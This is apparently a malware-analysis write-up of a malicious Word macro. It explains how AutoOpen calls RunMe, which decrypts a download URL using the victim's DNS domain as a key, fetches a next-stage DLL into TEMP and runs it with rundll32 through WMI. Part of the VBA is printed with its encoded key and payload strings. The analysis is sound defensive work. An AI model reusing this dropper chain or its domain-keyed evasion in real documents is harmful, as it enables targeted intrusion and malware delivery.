 

## Malicious VBA

The VBA is targeted towards very specific targets. The code is in the
`NewMacros` module, and it execution on opening by implementing
`AutoOpen()`, which simply calls `RunMe`.

The `RunMe` function takes the following actions:

1.  Initializes and attempts to decrypt a master key using the user's
    domain as a key (`keyVar = UCase(Environ("USERDNSDOMAIN"))`).
2.  Uses the master key to decrypt a string url.
3.  Issue a GET request using `Microsoft.XMLHTTP` to get the url
    decrypted in 2, saving it to a file in `Environ("TEMP")`.
4.  Creates a WMI object to create a rundll32.exe process to load the
    dll.

### 1. Decrypt Key with DNS Domain

#### Code

The malware will need to download the next stage binary, but as an
anti-forensics measure, it keeps the url for that binary encrypted, and
the VBA contains the routines to decrypt it. The master key is encrypted
19 times, presumably with different target domains. So the code gets the
current domain using `keyVar = UCase(Environ("USERDNSDOMAIN"))`, and
then tries to decrypt each of the 20 binaries objects hardcoded as
"keySchedule". If none of them can be decrypted, and error message is
thrown, and the code exits.

The code looks like this:



    Sub RunMe()
        Dim s, keyVar, sPlaintext As String
        Dim masterKey As Variant
        keyVar = UCase(Environ("USERDNSDOMAIN"))
        Dim payload As String
        payload = ""
        Dim i As Integer

        Dim keyScheduleBytes() As Variant
        Dim myURL As String
        Dim keySchedule(19) As String
        keySchedule(0) = "i+6d45jyleWY9cH3h/yB6oeljPOT/tih3rU="
    '...snip...'
        keySchedule(19) = "keWR7ZPunued+N3yjv+M+Imqj/CK9tes1qo="
        payload = payload & "uerr6erm67Xh86nk8rT19r/yofGx+u7s663+oLDpruevrvWss+64va7xpvHn"
        payload = payload & "or/n5eO+/qfxpqGrtOK0tfap9f3r8rLns/r996Tivq+34beyqA=="
        ReDim keyScheduleBytes(UBound(keySchedule))
        For i = 0 To UBound(keySchedule)
            keyScheduleBytes(i) = Decode64(keySchedule(i))
        Next

